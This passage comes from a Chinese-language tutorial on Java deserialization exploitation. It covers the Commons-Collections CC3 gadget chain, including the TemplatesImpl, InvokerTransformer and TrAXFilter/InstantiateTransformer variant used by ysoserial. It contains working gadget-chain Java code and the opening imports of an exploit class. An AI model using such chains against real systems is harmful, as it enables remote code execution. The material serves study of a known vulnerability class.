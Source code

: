 ```java
        classField.setAccessible(true);
        classField.set(templates,null);

        Field tfactoryField = TemplatesImpl.class.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(templates,new TransformerFactoryImpl());

//        templates.newTransformer();
        ChainedTransformer chainedTransformer = new ChainedTransformer(
                new Transformer[]{
                        new ConstantTransformer(
                                templates
                        ),
                        new InvokerTransformer(
                                "newTransformer",
                                null,
                                null
                        ),
                });
        chainedTransformer.transform(new Object());
    }
```

使用 InvokerTransformer 来构造，剩下的和 CC1 一致，使用 AnnotationInvocationHandler 的 readObject 就可以了。

### 2. InstantiateTransformer 调用链

ysoserial 中使用的并不是 InvokerTransformer，而是 InstantiateTransformer。下面进一步分析 ysoserial 中的这一条利用链。

使用 find Usages 查找 newTransformer。可以发现在下面三个类中有调用，ysoserial 使用的是 TrAXFilter。

![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1640078273549-a1385780-62d7-4dda-bbad-456f68a14044.png)

可以看到调用 newTransformer 是 TrAXFilter 的构造器。

![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1640078321883-bcbad6f4-aa4c-4246-a7ed-ba784f7d0809.png)

但实际上 TrAXFilter 类没有继承 Serializable 接口，不能序列化。但是在 InstantiateTransformer.transform 方法，获取传入参数的构造器，并且进行了实例化。

![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1640078451046-7541b1e6-9962-44bf-9caa-e1119c0328e5.png)

因此我们可以将 iParamTypes 赋值为 TrAXFilter 实例，在实例化时就可以调用 TrAXFilter 的构造器。

利用链如下：

![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1640078574708-d909c6e2-aeed-4199-8c92-6bf7227959e7.png)

编写对应的 exp：

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.map.LazyMap;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
```